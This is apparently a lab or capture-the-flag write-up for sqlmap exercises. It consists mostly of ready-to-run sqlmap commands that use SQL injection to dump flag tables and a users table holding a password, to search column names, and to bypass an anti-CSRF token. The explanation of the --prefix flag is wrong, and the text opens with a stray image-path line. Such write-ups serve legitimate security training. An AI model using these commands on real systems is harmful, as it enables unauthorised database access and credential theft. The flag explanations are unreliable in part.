- `--risk=3`: Sets the risk level for tests. Risk levels range from 0 to 3, with 3 being the highest. Higher risk levels enable more aggressive tests, which may be more likely to exploit vulnerabilities.
- `--fresh-queries`: This flag tells sqlmap to ignore cached data and to re-execute all queries against the database. This ensures that any changes to the database since the last query execution are accounted for.

#### What's the contents of table flag6? (Case #6) - [Non-standard boundaries]

```
sqlmap -r Case6.txt --batch --dump -T flag6 -D testdb --no-cast --level=5 --risk=3 --prefix='`)'
```
- `--prefix=`: This flag allows you to specify a prefix to prepend to the extracted data.

#### What's the contents of table flag7? (Case #7) - [UNION SQLi with adjustments]
`We should verify that the number of columns in the UI is 5`
```
sqlmap -r Case7.txt --batch --dump -T flag7 -D testdb --no-cast --level=5 --risk=3 --union-cols=5 --dbms=MySQL
```
- `--union-cols=5`: Specifies the number of columns to be used in a UNION query during the SQL injection exploitation. By setting this flag to 5, you are instructing sqlmap to assume that the vulnerable query returns 5 columns. This is important for constructing valid UNION queries, as both the original and injected queries must have the same number of columns to work correctly.

<hr/>

### Database Enumeration & Advanced Database Enumeration - Exercises
#### What's the contents of table flag1 in the testdb database? (Case #1)
```
sqlmap -r Case1.txt --threads 10 --dump -T flag1 -D testdb -dbms=MySQL --batch
```

#### What's the name of the column containing "style" in it's name? (Case #1)
```
sqlmap -r Case1.txt --threads 10 --search -C style --batch
```

#### What's the Kimberly user's password? (Case #1)
```
sqlmap -r Case1.txt --threads 10 --dump -D testdb -T users --batch
```

### Bypassing Web Application Protections
#### What's the contents of table flag8? (Case #8) - [anti-CSRF token bypass]
```
sqlmap -r Case8.txt --csrf-token=t0ken -T flag8 --dump --risk=3 --level=5 --batch
```
- `--csrf-token=t0ken`: This flag is used to specify a CSRF (Cross-Site Request Forgery) token. Many modern web applications use CSRF tokens to prevent unauthorized actions on behalf of a user.
- In this case, `t0ken` is the placeholder for the actual CSRF token that the web application is using. Sqlmap will substitute this token in each request to bypass CSRF protection
